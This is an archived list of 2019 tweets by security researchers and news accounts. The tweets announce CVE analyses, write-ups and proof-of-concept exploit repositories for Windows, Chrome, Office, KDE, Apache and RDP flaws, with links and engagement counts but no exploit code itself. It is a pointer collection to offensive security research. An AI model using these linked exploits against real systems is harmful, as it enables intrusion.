**https://twitter.com/_CPResearch_/status/1163798254145982466 _at Tue Aug 20 13:01:40 +0000 2019_**
<blockquote>
[CPR-Zero] CVE-2019-1159 (Windows 10 Kernel): Use-After-Free in the GetDCEx function in win32kfull.sys.
https://t.co/kg8deEXLnk
</blockquote>

* https://cpr-zero.checkpoint.com/vulns/cprid-2132/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>123</code></td>
<td>Favorites: <code>230</code></td>
</tr></table>

---
# zer0pwn
**https://twitter.com/zer0pwn/status/1161022192638935040 _at Mon Aug 12 21:10:36 +0000 2019_**
<blockquote>
The Year of Linux on the Desktop (CVE-2019-14744). 
Featuring a command injection bug in KDE 4 and 5.

https://t.co/ddCoXUcau4

#security #bugbounty #bugbountytips #redteam #0day #exploit #security #kde #zerodotlol #zerolol #analysis #poc
</blockquote>

* https://zero.lol/2019-08-11-the-year-of-linux-on-the-desktop/

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>46</code></td>
</tr></table>

---
# seebug_team
**https://twitter.com/seebug_team/status/1160854035097968640 _at Mon Aug 12 10:02:24 +0000 2019_**
<blockquote>
Analysis of Apache Solr DataImportHandler Remote Code Execution Vulnerability (CVE-2019-0193) is out now.  Learn more on Seebug Paper: https://t.co/0eNWDwceeF and Medium: https://t.co/wycw3zQpgz
</blockquote>

* https://paper.seebug.org/1010/
* https://medium.com/@knownsec404team/analysis-of-apache-solr-dataimporthandler-remote-code-execution-vulnerability-cve-2019-0193-2ce32e68d868

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>26</code></td>
<td>Favorites: <code>40</code></td>
</tr></table>

---
# wugeej
**https://twitter.com/wugeej/status/1156348318819090433 _at Tue Jul 30 23:38:17 +0000 2019_**
<blockquote>
[PoC Library] Windows RCE Exploits

(1) Web VBScript
- CVE-2018-8174 (tested on non updated Internet Explorer 11 Windows 7 64/32)
- CVE-2019-0752 (tested on non updated Internet Explorer 11 Windows 7-10 (a bit slow on win10))

https://t.co/iJOOCpNIOF
</blockquote>

* https://github.com/smgorelik/Windows-RCE-exploits

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>77</code></td>
<td>Favorites: <code>137</code></td>
</tr></table>

---
# seebug_team
**https://twitter.com/seebug_team/status/1153864873769668608 _at Wed Jul 24 03:09:58 +0000 2019_**
<blockquote>
The Analysis of CVE-2019-11229 -- From Git Config to RCE is out now. Read more on Seebug Paper: https://t.co/2fWuk3c27R or https://t.co/n393uQAtV0.
</blockquote>

* https://paper.seebug.org/990/
* https://medium.com/@knownsec404team/analysis-of-cve-2019-11229-from-git-config-to-rce-32c217727baa

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>73</code></td>
<td>Favorites: <code>142</code></td>
</tr></table>

---
# AmarSaar
**https://twitter.com/AmarSaar/status/1148709616869621760 _at Tue Jul 09 21:44:49 +0000 2019_**
<blockquote>
Shoutout to the awesome Cfir Cohen for CVE-2019-0966! Thanks for letting us know about this Hyper-V DoS vulnerability (memory leak) in vpcivsp, accessible from non-root partition. It was a pleasure working with you, thanks for reaching out buddy! https://t.co/mXZ27a7Cxk
</blockquote>

* https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2019-0966

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>3</code></td>
<td>Favorites: <code>43</code></td>
</tr></table>

---
# SophosLabs
**https://twitter.com/SophosLabs/status/1148609081965514752 _at Tue Jul 09 15:05:19 +0000 2019_**
<blockquote>
CVE-2019-0888: Use-After-Free in Windows ActiveX Data Objects (ADO) 

It's been over a month since the patch was released, so we've published the following explanation of the bug, and how to exploit it to achieve an ASLR bypass and Read/Write primitive: https://t.co/LHeKeXR0fl https://t.co/fanX9ClNR7
</blockquote>

* https://news.sophos.com/en-us/2019/07/09/cve-2019-0888-use-after-free-in-windows-activex-data-objects-ado/?cmp=30727

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>35</code></td>
<td>Favorites: <code>40</code></td>
</tr></table>

---
# galdeleon
**https://twitter.com/galdeleon/status/1146031192195686400 _at Tue Jul 02 12:21:43 +0000 2019_**
<blockquote>
Just released my post about CVE-2019-0863 Win LPE which I discovered and was also spotted ITW https://t.co/HPt65Uxn9a #sandboxescaper #vulnerability #exploitation
</blockquote>

* https://unit42.paloaltonetworks.com/tale-of-a-windows-error-reporting-zero-day-cve-2019-0863/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>38</code></td>
<td>Favorites: <code>56</code></td>
</tr></table>

---
# wugeej
**https://twitter.com/wugeej/status/1142604873562611718 _at Sun Jun 23 01:26:45 +0000 2019_**
<blockquote>
GitHub - sophoslabs/CVE-2019-0888: PoC for CVE-2019-0888 - Use-After-Free in Windows ActiveX Data Objects (ADO) https://t.co/o22CcRKQ11
</blockquote>

* https://github.com/sophoslabs/CVE-2019-0888/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>45</code></td>
<td>Favorites: <code>90</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1142479720505679872 _at Sat Jun 22 17:09:26 +0000 2019_**
<blockquote>
Here's a PoC video for RCE vulnerability (CVE-2019-1105) in the "Outlook for Android," shared with THN by @Kumargaurav776, who also reported this flaw responsibly to the Microsoft. https://t.co/6ioKw3D4E2
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>10</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>70</code></td>
<td>Favorites: <code>113</code></td>
</tr></table>

---
# piedpiper1616
**https://twitter.com/piedpiper1616/status/1142289831499710464 _at Sat Jun 22 04:34:53 +0000 2019_**
<blockquote>
GitHub - sophoslabs/CVE-2019-0888: PoC for CVE-2019-0888 - Use-After-Free in Windows ActiveX Data Objects (ADO) https://t.co/3y7NKGms60
</blockquote>

* https://github.com/sophoslabs/CVE-2019-0888/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>52</code></td>
<td>Favorites: <code>107</code></td>
</tr></table>

---
# bordplate
**https://twitter.com/bordplate/status/1142033076572315651 _at Fri Jun 21 11:34:38 +0000 2019_**
<blockquote>
Just posted a blog post about how I was able to exploit CrashPlan for privilege escalation on Windows (and macOS/Linux).
This is CVE-2019-11552.

https://t.co/jB00XwicYV
</blockquote>

* https://bordplate.no/blog/en/post/crashplan-privilege-escalation/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>33</code></td>
<td>Favorites: <code>84</code></td>
</tr></table>

---
# wugeej
**https://twitter.com/wugeej/status/1141525561954562048 _at Thu Jun 20 01:57:57 +0000 2019_**
<blockquote>
[PoC] CVE-2019-8603 (macOS vulnerability): Safari sandbox escape using an out-of-bounds read vulnerability

https://t.co/bqD4GosiBt
</blockquote>

* https://mp.weixin.qq.com/s/fC18oinvoOv-H989pw06tw

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>76</code></td>
</tr></table>

---
# zer0pwn
**https://twitter.com/zer0pwn/status/1141488997182709760 _at Wed Jun 19 23:32:39 +0000 2019_**
<blockquote>
CVE-2019-12828 Origin RCE analysis and proof of concept. https://t.co/O96NK8BmOZ #security #bounty #bugbounty #redteam #rce #qt  #bugbountytips
</blockquote>

* https://zeropwn.github.io/2019-05-22-fun-with-uri-handlers/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>90</code></td>
<td>Favorites: <code>218</code></td>
</tr></table>

---
# wugeej
**https://twitter.com/wugeej/status/1139338670379397120 _at Fri Jun 14 01:08:01 +0000 2019_**
<blockquote>
[PoC] 2010~2018 MS Office 0-day/1-day exploit-case-study
#OpenXMLTag
#RTF
#ActiveX
#UAF
#TIFF
#EPS
#Moniker

CVE-2010-3333
CVE-2014-1761
CVE-2016-7193
CVE-2015-1641
CVE-2017-11826
CVE-2012-0158
CVE-2012-1856
CVE-2015-1642
CVE-2014-6352
CVE-2015-0097

https://t.co/MHJ5xtGSKZ
</blockquote>

* https://www.anquanke.com/post/id/180067#h3-11

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>75</code></td>
<td>Favorites: <code>173</code></td>
</tr></table>

---
# _zc00l
**https://twitter.com/_zc00l/status/1138562430626385921 _at Tue Jun 11 21:43:31 +0000 2019_**
<blockquote>
Now that it's no longer a 0day, check my post about "Coding a reliable CVE-2019-0841 bypass" to craft a LPE exploit that works for all versions of Microsoft Edge in Windows 10.
https://t.co/1VeFQ7W9Vm
</blockquote>

* https://0x00-0x00.github.io/research/2019/05/30/Coding-a-reliable-CVE-2019-0841-Bypass.html

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>104</code></td>
<td>Favorites: <code>203</code></td>
</tr></table>

---
# thezdi
**https://twitter.com/thezdi/status/1138505269737115654 _at Tue Jun 11 17:56:23 +0000 2019_**
<blockquote>
ZDI researcher @HexKitchen takes a detailed look at CVE-2019-1069 - an LPE via the Windows task scheduler. His analysis shows an attacker can escalate even without knowing a password. https://t.co/zMILRrxYzZ
</blockquote>

* http://bit.ly/2KdcXWT

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>91</code></td>
<td>Favorites: <code>139</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1136949163587821568 _at Fri Jun 07 10:52:58 +0000 2019_**
<blockquote>
Hacker going by the name of #SandboxEscaper today discloses a second zero-day exploit that apparently bypasses #Microsoft's patch for a Windows EoP vulnerability (CVE-2019-0841)

https://t.co/DdO0bztrO5

—by @security_wang https://t.co/LNDzqajDOc
</blockquote>

* https://thehackernews.com/2019/06/windows-eop-exploit.html

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>21</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>385</code></td>
<td>Favorites: <code>494</code></td>
</tr></table>

---
# ryHanson
**https://twitter.com/ryHanson/status/1135685906965262336 _at Mon Jun 03 23:13:14 +0000 2019_**
<blockquote>
I've got reliable RCE on Windows 7 / Server 2008 and I have very little experience with kernel exploitation... Now I understand why MSRC considers CVE-2019-0708 so dangerous. https://t.co/ChGYTgyetV
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>18</code></td>
<td>Replies: <code>16</code></td>
<td>Retweets: <code>404</code></td>
<td>Favorites: <code>1122</code></td>
</tr></table>

---
# MalwareTechBlog
**https://twitter.com/MalwareTechBlog/status/1134242750059098112 _at Thu May 30 23:38:39 +0000 2019_**
<blockquote>
How to turn CVE-2019-0708 DoS into RCE according to Twitter.
1) Trigger vulnerability with DoS PoC
2) Send payload over TLS
3) System magically runs payload https://t.co/23wGHmjrFW
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>165</code></td>
</tr></table>

---
# alisaesage
**https://twitter.com/alisaesage/status/1133706179274690567 _at Wed May 29 12:06:31 +0000 2019_**
<blockquote>
I am following the RDP 0day saga. I saw lots of PR, teasing pics and videos that imply nothing with respect to knowledge, and a few low quality publications

Thus far this is the only analysis of CVE-2019-0708 that I can recommed to my followers: https://t.co/d54Doln9Mz #BlueKeep
</blockquote>

* https://www.zerodayinitiative.com/blog/2019/5/27/cve-2019-0708-a-comprehensive-analysis-of-a-remote-desktop-services-vulnerability

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>70</code></td>
<td>Favorites: <code>184</code></td>
</tr></table>

---
# Dinosn
**https://twitter.com/Dinosn/status/1133431713969909762 _at Tue May 28 17:55:53 +0000 2019_**
<blockquote>
Pwn2Own 2019: Microsoft Edge Sandbox Escape (CVE-2019-0938). Part 2 https://t.co/qgzg6YdB51
</blockquote>

* https://blog.exodusintel.com/2019/05/27/pwn2own-2019-microsoft-edge-sandbox-escape-cve-2019-0938-part-2/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>48</code></td>
</tr></table>

---
# thezdi
**https://twitter.com/thezdi/status/1133373429208502277 _at Tue May 28 14:04:17 +0000 2019_**
<blockquote>
In a new guest blog, the folks from Trend Micro Research provide an in-depth analysis of CVE-2019-0708, the recent Remote Desktop Services bug. https://t.co/OaJK6O21cE
</blockquote>

* http://bit.ly/2KeGYF3

<table><tr>
<td>Quotes: <code>13</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>236</code></td>
<td>Favorites: <code>350</code></td>
</tr></table>

---
# RedDrip7
**https://twitter.com/RedDrip7/status/1131357390333390848 _at Thu May 23 00:33:16 +0000 2019_**
<blockquote>
Do patch the critical ‘#wormable‘ RCE vulnerability #CVE-2019-0708 ASAP. We are able to trigger #BSoD stably on all affected 32-bit and 64-bit systems, including Windows Server 2008, etc. We notice lots of #RDP services are unpatched. At least, it could cause massive #DoS by now. https://t.co/JjAThuV2em
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>23</code></td>
<td>Favorites: <code>32</code></td>
</tr></table>

---
# KoAkinci
**https://twitter.com/KoAkinci/status/1130516048971747328 _at Mon May 20 16:50:04 +0000 2019_**
<blockquote>
CVE-2019-3568: WhatsApp 0 day vulnerability analysis
Link : https://t.co/jPfe4tJJ9j
#WhatsApp #0day #Vulnerabilty https://t.co/j3BdaO1FhA
</blockquote>

* https://translate.google.com/translate?hl=&sl=zh-CN&tl=tr&u=https%3A%2F%2Fpaper.tuisec.win%2Fdetail%2F758132befa191f8&sandbox=1

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>9</code></td>
<td>Favorites: <code>36</code></td>
</tr></table>

---
# wugeej
**https://twitter.com/wugeej/status/1130268214913462272 _at Mon May 20 00:25:16 +0000 2019_**
<blockquote>
[PoC] Horde Webmail - XSS + CSRF to SQLi, RCE, Stealing Emails &lt;= v5.2.22

CVE-2019-12094
CVE-2019-12095

https://t.co/Gp4FgGvJKa https://t.co/bTNPZL21xs
</blockquote>

* https://cxsecurity.com/issue/WLB-2019050199

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>27</code></td>
<td>Favorites: <code>38</code></td>
</tr></table>

---
# XI_Research
**https://twitter.com/XI_Research/status/1129436429648629761 _at Fri May 17 17:20:03 +0000 2019_**
<blockquote>
.@tekwizz123 of our Nday team exploits the recently patched CVE-2019-0808 win32k bug to escape the chrome sandbox
https://t.co/lB1uaGkAIL
</blockquote>

* https://blog.exodusintel.com/2019/05/17/windows-within-windows/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>113</code></td>
<td>Favorites: <code>178</code></td>
</tr></table>

---
# buffaloverflow
**https://twitter.com/buffaloverflow/status/1128431375680454657 _at Tue May 14 22:46:19 +0000 2019_**
<blockquote>
Today Intel released a fix for a bug I found in DSA (CVE-2019-11114). Tomorrow we will release an advisory demonstrating the LPE exploit 👍

https://t.co/LBGwV55Mme
</blockquote>

* https://www.intel.com/content/www/us/en/security-center/advisory/intel-sa-00252.html

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>21</code></td>
<td>Favorites: <code>43</code></td>
</tr></table>

---
# dangoodin001
**https://twitter.com/dangoodin001/status/1128406264956932096 _at Tue May 14 21:06:32 +0000 2019_**
<blockquote>
Hoping to head off another catastrophic worm, Microsoft took the unusual step of patching Win 2003 and XP against CVE-2019-0708. The RCE bug is easy to exploit and requires no user interaction. 3 million endpoints are directly exposed. Also affects Win 7, Server 2008 and 2008.
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>65</code></td>
<td>Favorites: <code>81</code></td>
</tr></table>

---
# hosselot
**https://twitter.com/hosselot/status/1125280426162053121 _at Mon May 06 06:05:34 +0000 2019_**
<blockquote>
Nice writeup+(0x41414141) PoC for Mozilla Firefox HTML5 Stream Parsing Use-after-free Vulnerability (CVE-2018-18500) by Yaniv Frank from @SophosLabs:
https://t.co/NgPzvUBWA7
</blockquote>

* https://news.sophos.com/en-us/2019/04/18/protected-cve-2018-18500-heap-write-after-free-in-firefox-analysis-and-exploitation/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>43</code></td>
<td>Favorites: <code>109</code></td>
</tr></table>

---
# OPOSEC
**https://twitter.com/OPOSEC/status/1124992139354615808 _at Sun May 05 11:00:02 +0000 2019_**
<blockquote>
Google Chrome pdfium shading drawing integer overflow to RCE (CVE-2018-6120). https://t.co/xcdsVZlLOc (+) #Security #231 (2018)
</blockquote>

* http://bit.ly/2O5x7k2

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>79</code></td>
</tr></table>

---
# thezdi
**https://twitter.com/thezdi/status/1121431383870771200 _at Thu Apr 25 15:10:51 +0000 2019_**
<blockquote>
CVE-2019-0726/ZDI-19-272: @HexKitchen details a vuln in the #Windows DHCP Client reported by Trend's own Saran Neti. Bug could lead to RCE. Blog provides root cause analysis &amp; steps to reproduce. https://t.co/NlFISGNqZt
</blockquote>

* http://bit.ly/2UTCs56

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>85</code></td>
<td>Favorites: <code>138</code></td>
</tr></table>

---
# ptracesecurity
**https://twitter.com/ptracesecurity/status/1118375367281205253 _at Wed Apr 17 04:47:20 +0000 2019_**
<blockquote>
CVE-2019-0232: Apache Tomcat Remote Code Execution on Windows https://t.co/auveCG8m3D #Windows #ApacheTomcat #Vulnerability #Exploit #Pentesting #Infosec https://t.co/EqFdhBAKga
</blockquote>

* https://github.com/pyn3rd/CVE-2019-0232/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>47</code></td>
</tr></table>

---
# Jackson_T
**https://twitter.com/Jackson_T/status/1117767541999357952 _at Mon Apr 15 12:32:03 +0000 2019_**
<blockquote>
CVE-2019-9730: Local privilege elevation in Synaptics Sound Device Driver package. Multiple OEMs affected. Exploit and write-up here: https://t.co/swozSC1Ka7. https://t.co/R6NmPG370G
</blockquote>

* http://jackson-t.ca/synaptics-cxutilsvc-lpe.html

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>364</code></td>
<td>Favorites: <code>720</code></td>
</tr></table>

---
# CyberWarship
**https://twitter.com/CyberWarship/status/1117727023424782338 _at Mon Apr 15 09:51:03 +0000 2019_**
<blockquote>
CVE-2019-0541 - Exploit  

MSHTML Engine RCE on any Windows version since at least XP up to 10 &amp;&amp; Server 2019 

#infosec #pentest #exploit 
https://t.co/B7gGcGl1y7
</blockquote>

* https://www.exploit-db.com/exploits/46536

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>181</code></td>
<td>Favorites: <code>320</code></td>
</tr></table>

---
# CodeColorist
**https://twitter.com/CodeColorist/status/1116933653903237123 _at Sat Apr 13 05:18:29 +0000 2019_**
<blockquote>
Got someone asking for the PoC of CVE-2018-8142, the LPE for Microsoft Autoupdate Helper 3.18(180410) (affects MS Office 2016 and SkypeForBusiness for macOS, writeup: https://t.co/wnCtrURWmd), and here you are: https://t.co/Xo7HKq2WW4
</blockquote>

* https://medium.com/0xcc/cve-2018-8412-ms-office-2016-for-mac-privilege-escalation-via-a-legacy-package-7fccdbf71d9b
* https://github.com/ChiChou/CVE-2018-8142-poc

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>47</code></td>
<td>Favorites: <code>89</code></td>
</tr></table>

---
# HaifeiLi
**https://twitter.com/HaifeiLi/status/1115674789513846784 _at Tue Apr 09 17:56:12 +0000 2019_**
<blockquote>
Computers are weird.. sometimes you just need some "clicking" skills to find a bug.

There's no specific PoC for Flash UAF CVE-2019-7096, only a gif. https://t.co/TkIuNMgzhU
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>8</code></td>
<td>Favorites: <code>42</code></td>
</tr></table>

---
# kunalp94
**https://twitter.com/kunalp94/status/1110187870185127937 _at Mon Mar 25 14:33:09 +0000 2019_**
<blockquote>
Really enjoyed this video about "CVE-2018-10994, Steal messages from Signal using RCE". From explanation to exploitation.
Check out his channel  :)

https://t.co/Z74TN9Tw3L
</blockquote>

* https://www.youtube.com/watch?v=mGe95jhQONc

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>39</code></td>
</tr></table>

---
# _sinn3r
**https://twitter.com/_sinn3r/status/1109141908729880577 _at Fri Mar 22 17:16:52 +0000 2019_**
<blockquote>
CVE-2019-5786 Google Chrome FileReader use-after-free exploit: https://t.co/Lmt21ZMyzz
</blockquote>

* https://github.com/exodusintel/CVE-2019-5786

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>46</code></td>
<td>Favorites: <code>81</code></td>
</tr></table>

---
# _r_netsec
**https://twitter.com/_r_netsec/status/1109078380232597504 _at Fri Mar 22 13:04:26 +0000 2019_**
<blockquote>
CVE-2019-0604: Details of a Microsoft SharePoint RCE Vulnerability https://t.co/LVNDwmuMSr
</blockquote>

* https://www.thezdi.com/blog/2019/3/13/cve-2019-0604-details-of-a-microsoft-sharepoint-rce-vulnerability

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>40</code></td>
<td>Favorites: <code>88</code></td>
</tr></table>

---
# scriptjunkie1
**https://twitter.com/scriptjunkie1/status/1108553355541049345 _at Thu Mar 21 02:18:10 +0000 2019_**
<blockquote>
Exodus Intel CVE-2019-5786 Chrome 72.0.3626.119 stable FileReader UaF exploit for Windows 7 x86.
https://t.co/oQTuky95zx
</blockquote>

* https://github.com/exodusintel/CVE-2019-5786

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>33</code></td>
<td>Favorites: <code>72</code></td>
</tr></table>

---
# RanchoIce
**https://twitter.com/RanchoIce/status/1107925785866723328 _at Tue Mar 19 08:44:26 +0000 2019_**
<blockquote>
Analysis of CVE-2019-5786 Chrome FileReader Use-After-Free
https://t.co/gfc27CTMpB
</blockquote>

* https://weibo.com/ttarticle/p/show?id=2309404351596157885398

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>42</code></td>
</tr></table>

---
# x0rz
**https://twitter.com/x0rz/status/1107627861408649219 _at Mon Mar 18 13:00:35 +0000 2019_**
<blockquote>
Windows Kernel Privilege Escalation Vulnerability (CVE-2019-0808) root cause analysis https://t.co/tz8WuCNl1D #vulnerability #windows https://t.co/dEAEtdN5a0
</blockquote>

* http://blogs.360.cn/post/RootCause_CVE-2019-0808_EN.html

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>50</code></td>
<td>Favorites: <code>113</code></td>
</tr></table>

---
# 360CoreSec
**https://twitter.com/360CoreSec/status/1106115047787393025 _at Thu Mar 14 08:49:12 +0000 2019_**
<blockquote>
Microsoft fixed a Windows 0day (CVE-2019-0808) in Patch Tuesday. Our team constructed the POC and reproduced the vulnerability triggering process. Click here to read more: https://t.co/aE6l1nPwnw
</blockquote>

* http://blogs.360.cn/post/RootCause_CVE-2019-0808_EN.html

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>188</code></td>
<td>Favorites: <code>308</code></td>
</tr></table>

---
# Edu_Braun_0day
**https://twitter.com/Edu_Braun_0day/status/1106048620678311942 _at Thu Mar 14 04:25:15 +0000 2019_**
<blockquote>
MSHTML Engine RCE - CVE-2019-0541: Running arbitrary code on any Windows version since at least XP up to latest 10 and Server 2019 made SURPRISINGLY easy. Video: https://t.co/V1jQ0TJ7C7  and PoC: https://t.co/KRLmCHXYpN
</blockquote>

* https://youtu.be/OdEwBY7rXMw
* https://www.exploit-db.com/exploits/46536

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>185</code></td>
<td>Favorites: <code>303</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1103233119434489857 _at Wed Mar 06 09:57:27 +0000 2019_**
<blockquote>
⚠️ Important — Update your #Google Chrome immediately to patch a new high-severity 0-day RCE #vulnerability (CVE-2019-5786) that hackers are actively exploiting in the wild

https://t.co/vrorvFYuU8

Patched Chrome version 72.0.3626.121 has been released for Windows, macOS, Linux https://t.co/IoW8ZjQgZZ
</blockquote>

* https://thehackernews.com/2019/03/update-google-chrome-hack.html

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>65</code></td>
<td>Replies: <code>13</code></td>
<td>Retweets: <code>638</code></td>
<td>Favorites: <code>499</code></td>
</tr></table>

---
# cBekrar
**https://twitter.com/cBekrar/status/1103138159133569024 _at Wed Mar 06 03:40:07 +0000 2019_**
<blockquote>
Google discovered a Chrome RCE #0day in the wild (CVE-2019-5786). Reportedly, a full chain with a sandbox escape: https://t.co/Nxfrvr5wIh 

In 2019, I expect epic 0days to be found in the wild: Android, iOS, Windows, Office, virtualization, and more. Stay safe and enjoy the show.
</blockquote>

* https://chromereleases.googleblog.com/2019/03/stable-channel-update-for-desktop.html

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>163</code></td>
<td>Favorites: <code>238</code></td>
</tr></table>

---
# XssPayloads
**https://twitter.com/XssPayloads/status/1098135934665719808 _at Wed Feb 20 08:23:03 +0000 2019_**
<blockquote>
Microsoft Edge RCE PoC (CVE-2018-8495). Nice payload by @kmkz_security 
https://t.co/JBz1wmms6W

Initial  writeup: https://t.co/Jd5BrMN2zv
</blockquote>

* http://bit.ly/2XdzMNm
* http://bit.ly/2EkFPIs

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>134</code></td>
<td>Favorites: <code>250</code></td>
</tr></table>

---
# _fel1x
**https://twitter.com/_fel1x/status/1096460676678201344 _at Fri Feb 15 17:26:11 +0000 2019_**
<blockquote>
CVE-2019-7221 is a pretty nice guest-triggerable use-after-free in KVM (https://t.co/NhHXDsbWVV) and CVE-2019-7222 is an info leak to help with exploitation (https://t.co/tLV45JUKSv).
</blockquote>

* https://bugs.chromium.org/p/project-zero/issues/detail?id=1760
* https://bugs.chromium.org/p/project-zero/issues/detail?id=1759

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>164</code></td>
<td>Favorites: <code>283</code></td>
</tr></table>

---
# campuscodi
**https://twitter.com/campuscodi/status/1094212733871030272 _at Sat Feb 09 12:33:39 +0000 2019_**
<blockquote>
Google reveals details about CVE-2018-18354, a remote code execution in Chrome, patched in December (Chrome 71)

https://t.co/4pLAMCuZDs https://t.co/GINXF8wInO
</blockquote>

* https://bugs.chromium.org/p/chromium/issues/detail?id=889459

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>23</code></td>
<td>Favorites: <code>42</code></td>
</tr></table>

---
# steventseeley
**https://twitter.com/steventseeley/status/1091329594026852352 _at Fri Feb 01 13:37:05 +0000 2019_**
<blockquote>
Heres my writeup for the discovery and exploitation of CVE-2018-19418 with the CVE-2018-19447 analysis thrown in!

ActiveX Exploitation in 2019 :: Instantiation is not Scripting https://t.co/NQBRdKKaSS
</blockquote>

* https://srcincite.io/blog/2019/02/01/activex-exploitation-in-2018-instantiation-is-not-scripting.html

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>215</code></td>
<td>Favorites: <code>396</code></td>
</tr></table>

---
# AmarSaar
**https://twitter.com/AmarSaar/status/1090914852275740672 _at Thu Jan 31 10:09:03 +0000 2019_**
<blockquote>
Since we love spread knowledge - beside the UAF discussed here (CVE-2018-0965), in the same function (vpcivsp!VirtualBusChannelProcessPacket) there was an info disclosure: uninitialized local structure on the stack sent to the guest via VirtualBusPacketComplete (CVE-2018-0964)
</blockquote>

<table><tr>
